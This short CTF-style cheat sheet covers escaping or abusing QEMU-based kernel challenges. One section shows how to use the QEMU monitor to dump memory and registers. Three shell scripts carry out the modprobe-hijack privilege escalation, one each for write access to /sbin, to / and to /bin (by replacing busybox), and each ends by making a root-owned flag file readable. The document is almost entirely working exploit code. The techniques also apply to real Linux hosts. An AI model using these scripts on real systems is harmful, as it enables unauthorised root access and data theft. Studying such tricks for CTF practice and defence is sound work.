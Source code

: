 # Abusing QEMU Monitor
^A c to toggle QEMU monitor. Then use `info registers` to get registers, `info mem` to get vmmap, `info mtree` for physical mappings, `x/gx addr` to print virtual memory and `xp/gx addr` to print physical memory

If flag is in memory, this can be used to get it. Otherwise, can at least be used to get leak.

# Abusing write-access
## Write-access to `/sbin`
```sh
echo -en '\xff\xff\xff\xff' > /tmp/dummy
chmod +x /tmp/dummy
mv /sbin/modprobe /tmp
echo -en '#!/bin/sh\nchmod 777 /flag\n' > /sbin/modprobe
chmod +x /sbin/modprobe
/tmp/dummy
cat /flag
```

## Write-access to `/`
```sh
echo -en '\xff\xff\xff\xff' > /tmp/dummy
chmod +x /tmp/dummy
mv /sbin /tmp/sbin
mkdir /sbin
echo -en '#!/bin/sh\nchmod 777 /flag\n' > /sbin/modprobe
chmod +x /sbin/modprobe
/tmp/dummy
cat /flag
```

## Write-access to `/bin`
Usually `/sbin/modprobe` points to `/bin/busybox`
```sh
echo -en '\xff\xff\xff\xff' > /tmp/dummy
chmod +x /tmp/dummy
cp /bin/busybox /bin/busybox2
ln -sf busybox2 /bin/cat 
ln -sf busybox2 /bin/chmod 
ln -sf busybox2 /bin/sh
echo -en '#!/bin/sh\nchmod 777 /flag\n' > /tmp/busybox
chmod +x /tmp/busybox
mv -f /tmp/busybox /bin/busybox
/tmp/dummy
cat /flag
```
